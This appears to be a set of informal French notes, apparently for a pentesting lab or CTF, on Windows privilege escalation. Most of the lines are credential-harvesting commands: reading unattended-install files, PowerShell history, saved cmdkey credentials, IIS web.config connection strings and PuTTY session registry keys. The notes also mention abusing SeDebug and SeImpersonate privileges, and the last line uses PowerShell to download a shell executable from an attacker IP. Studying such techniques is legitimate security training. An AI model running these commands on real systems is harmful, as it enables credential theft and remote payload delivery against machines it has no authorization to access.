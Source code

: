 [[ressource]]
whoami /priv

SI unattended install dossier possible avec credidential

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

pwosershell save les commande ici 

```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
cette commande read depuis le cmd 
pour read depuis le powershell faut remplacer %userprofiles% par $ENV:userprofile

cmdkey /list 
list les credidentials si y'en a qui valent le coup d'être essayer 
```shell-session
runas /savecred /user:admin cmd.exe
```
si IIS (internet information services)
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

commande pour trouver des credidential plus rapidement type C:\Windows\Microsoft.NET\ Framework64\v4.0.30319\Config\web.config | findstr connectionString

Putty ssh like pour windows 
data 
```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Abuser des priv :

Se Backup/restore

	si SeDebug + SePersonate peux use incognito metpreter 

je pose ceci la : 
powershell -c "Invoke-WebRequest -Uri 'http://10.11.112.48:4444/prout.exe' -Outfile 'C:\Windows\Temp\shell.exe'" 